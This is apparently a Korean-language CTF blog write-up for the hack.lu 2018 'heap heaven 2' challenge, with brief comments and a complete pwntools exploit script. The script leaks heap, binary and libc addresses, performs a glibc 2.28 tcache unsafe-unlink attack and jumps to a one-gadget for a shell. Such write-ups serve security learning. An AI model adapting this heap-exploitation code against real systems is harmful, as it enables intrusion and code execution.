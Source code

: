 ```yaml
---
title: hack.lu 2018 - heap heaven 2
date: 2018-10-19 - 01:19:53
categories:
- Heap Exploit
- CTF write up
tags:
- How2heap tcache
- Unsafe Unlink
---
```


```c
Please select your action:
[1] : write to heap
[2] : alloc on heap
[3] : free from heap
[4] : leak
[5] : exit
```

시험공부하다가 하기 싫어서 쓰는글..ㅠㅠ pox 이후로 다시 만난 tcache..



별거 없고 glibc 2.28 tcache + unsafe unlink 이다.

릭할때 로컬에선 됐는데 리모트는 안되고 리모트는 되는데 로컬이 안될때가 있었다.. 뭐지..ㅋㅋㅋ

다른 라이트업 보니까 state fd 영역 쓰는 걸 이용해서 함수 포인터를 바꿔주더라..



```python
from pwn import *

w = remote("arcade.fluxfingers.net",1809)
#w = process("./heap_heaven_2")
libso = ELF("./heaven_libc.so.6")

def write(off, cont):
	w.sendline("1")
	w.sendlineafter("?",str(len(cont)))
	w.sendlineafter("?",str(off))
	w.send(cont)

def free(off):
	w.sendline("3")
	w.sendlineafter("?",str(off))

def leak(off):
	w.sendline("4")
	w.sendlineafter("?",str(off))
	w.recvline()
	return w.recvline()

for i in range(0,15):
    write(0x200*i,p64(0)+p64(0x201))

for i in range(4,13):
    free(0x10+0x200*i)

my = 0x610
free(my)

heap = u64(leak(my+0x8)[:-1].ljust(8,"\x00"))
log.info("heap:: "+hex(heap))

write(my,p64(heap-0x10))
code = u64(leak(my)[:-1].ljust(8,"\x00"))
log.info("code:: "+hex(code))
code_base = code-0x1670

offset = libso.symbols['__strtoul']
write(my,p64(code_base+0x3fc8))
libc = u64(leak(my)[:-1].ljust(8,"\x00")) -offset
log.info("libc:: "+hex(libc))

target = code_base+0x4048-0x10

write(0x10,p64(target-0x8)+p64(target))
write(0x200,p64(0x200)+p64(0x200))

free(0x210)

one=[0x45200 ,0x45254, 0xe75f0]

write(0x30,p64(target+0x38))
write(0x40,p64(libc+one[2])+p64(libc+one[2]))
write(0x10,p64(target+0x28))

w.interactive()

```



못 풀엇던거..

heap_hell은 로직버그엿고 slot_machine 은 tcache 트릭..
